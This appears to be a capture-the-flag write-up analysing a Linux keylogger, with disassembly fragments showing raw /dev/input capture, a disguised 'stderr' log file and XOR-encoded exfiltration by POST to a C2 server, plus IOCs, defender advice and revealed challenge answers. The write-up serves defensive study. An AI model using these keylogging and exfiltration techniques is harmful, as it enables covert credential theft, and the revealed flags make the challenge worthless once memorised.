





## Scenario

A suspected piece of malware and an accompanying network capture are provided for analysis. The task is to reverse engineer the binary to understand its behaviour and extract IOCs, then correlate findings with the PCAP to recover exfiltrated data.

---

## Methodology

### Stage 1 — Network Capture Triage (Wireshark)

Opening the PCAP in Wireshark and filtering for HTTP traffic immediately surfaces repeated POST requests to an external server — the C2 communication pattern is visible before touching the binary:


```
POST / HTTP/1.1
Host: ubuntuserverr.com:8080
Content-Type: application/x-www-form-urlencoded
Full request URI: http://ubuntuserverr.com:8080/
```

The POST body contains form-urlencoded data with a garbled key field — clearly obfuscated or encrypted content being exfiltrated. The C2 server is `hxxp[://]ubuntuserverr[.]com:8080/`. The repeated POST pattern at regular intervals is consistent with a keylogger periodically flushing its capture buffer to the attacker's server.

### Stage 2 — Static Analysis: Input Device Hook (IDA)

Loading the binary in IDA and navigating to `main` reveals the keylogger's entry point. The very first meaningful operation is opening the input device:



```asm
lea     rax, file   ; "/dev/input/event1"
mov     rdi, rax    ; file
mov     eax, 0
call    _open
```

The malware opens `/dev/input/event1` directly — the raw Linux input event interface. Reading from this file captures all keyboard events at the kernel level, bypassing any userspace input filtering. This is T1056.001 (Input Capture: Keylogging) via direct device file access.

### Stage 3 — Static Analysis: Log File Path (IDA)

Further into `main`, after establishing the input hook, the malware constructs the keylog file path:


```asm
lea     rdx, aHomeSPublic   ; "/home/%s/Public"
call    _getlogin_r         ; get current username
call    _snprintf            ; build full path
```

The log file path template is `/home/%s/Public/stderr%d.log` — the `%s` is substituted with the current username via `_getlogin_r`, and `%d` is a numeric counter incrementing with each log file. Naming the file `stderr%d.log` is deliberate masquerading — `stderr` is a familiar system term that would not immediately arouse suspicion in a directory listing.

### Stage 4 — Static Analysis: Encryption Routine (IDA)

The function `send_to_server_encrypted` handles exfiltration. It calls `encrypt_content` before transmitting via libcurl. Examining `encrypt_content` in the IDA graph view reveals a simple byte-by-byte loop:



```asm
loc_15EF:
    mov     rdx, [rbp+var_18]
    mov     rax, [rbp+var_8]
    add     rax, rdx
    movzx   edx, byte ptr [rax]   ; load byte
    xor     edx, 35h               ; XOR with 0x35
    mov     [rax], dl              ; store result
```

Each byte of the keylog content is XORed with `0x35` (decimal 53) before transmission. Single-byte XOR is a minimal obfuscation — sufficient to defeat string-based network signatures but trivially reversible with the known key.

### Stage 5 — Decrypting the PCAP Data (CyberChef)

With the XOR key `0x35` confirmed, the POST body data from Wireshark can be decrypted in CyberChef:

**Recipe**: XOR (key: `35`, UTF8)

Decrypting the first POST body recovers credentials captured by the keylogger:
```
sud .o passwd
.super.secretp2.ssw0rd
.super.secretp.2.ssw0rd
```

The dots represent non-printable keystrokes (modifier keys, backspace corrections). The user typed `sudo passwd`, then entered `supersecretp2ssw0rd` twice — the second entry being the password confirmation. The dots within the password string are keylogger artefacts from key events between characters.

Decrypting a second POST body recovers the project name:
```
sudo apt install gedit
irok
mkdir '.project .sunset'
ls
````

The `mkdir` command reveals the secret project: **project sunset**. The employee was creating a directory for the project at the time of the compromise, which the keylogger captured and exfiltrated.

---

## Attack Summary

|Phase|Action|
|---|---|
|Keylogging|/dev/input/event1 opened directly — all keystrokes captured at kernel level|
|Log Storage|Keystrokes written to /home/[user]/Public/stderr[n].log — masqueraded as system file|
|Encryption|XOR 0x35 applied to log content before transmission|
|Exfiltration|POST to hxxp[://]ubuntuserverr[.]com:8080/ via libcurl|
|Credential Capture|sudo passwd session captured — password supersecretp2ssw0rd exfiltrated|
|Project Intelligence|mkdir command captured revealing project sunset|

---

## IOCs

|Type|Value|
|---|---|
|Input Device|/dev/input/event1|
|Log File Path|/home/%s/Public/stderr%d.log|
|C2 URL|hxxp[://]ubuntuserverr[.]com:8080/|
|C2 IP|139[.]162[.]45[.]103|
|XOR Key|0x35|
|Password Captured|supersecretp2ssw0rd|
|Project Name|project sunset|

---

## MITRE ATT&CK

|Technique|ID|Description|
|---|---|---|
|Input Capture: Keylogging|T1056.001|Direct read from /dev/input/event1 captures all keyboard input at kernel level|
|Exfiltration Over C2 Channel|T1041|XOR-encrypted keylog data POSTed to ubuntuserverr.com:8080 via libcurl|
|Obfuscated Files or Information|T1027|Single-byte XOR 0x35 applied to keylog content before transmission|

---

## Defender Takeaways

**Direct device file access bypasses userspace monitoring** — reading `/dev/input/eventX` directly requires no special privilege escalation on misconfigured systems and bypasses application-level input monitoring. Access to `/dev/input/` files should be restricted to root and the `input` group. Monitoring for unexpected processes opening `/dev/input/` files via auditd or eBPF-based endpoint tooling provides detection coverage.

**XOR is not encryption** — single-byte XOR with a static key provides obfuscation against casual inspection but is trivially reversible once the key is identified. It will defeat basic string-matching IDS rules but not any analyst who looks at the binary for five minutes. The key `0x35` is hardcoded and visible in the first static analysis pass. Any network security product performing content inspection should be configured with a rule matching the known XOR-encoded patterns.

**Masqueraded log filenames** — `stderr%d.log` in `/home/user/Public/` is a low-effort masquerade. File integrity monitoring on home directories, or alerting on processes writing files matching `stderr*.log` outside of standard system directories, would surface this activity. The Public directory is also an unusual location for log files and should trigger on anomaly-based EDR rules.

**libcurl in malware indicates prepared tooling** — statically or dynamically linked libcurl usage in a binary that isn't a legitimate application is a meaningful indicator. EDR telemetry showing a process making HTTP POST requests to an external host without being a known browser or update service warrants immediate investigation.

---

<div class="qa-item"> <div class="qa-question-text">Which event-based input device file is used by the malware?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">/dev/input/event1</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">To which external server is the malware sending the key logs?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">http://ubuntuserverr.com:8080/</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">What is the location of the key log file?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">/home/%s/Public/stderr%d.log</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Which encryption operation is the malware performing on the content before sending it to the attacker-controlled server?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">XOR</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Using Network logs, find out what the secret project name was.</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">project sunset</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Can you find the password that got leaked in the key log file?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">supersecretp2ssw0rd</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>
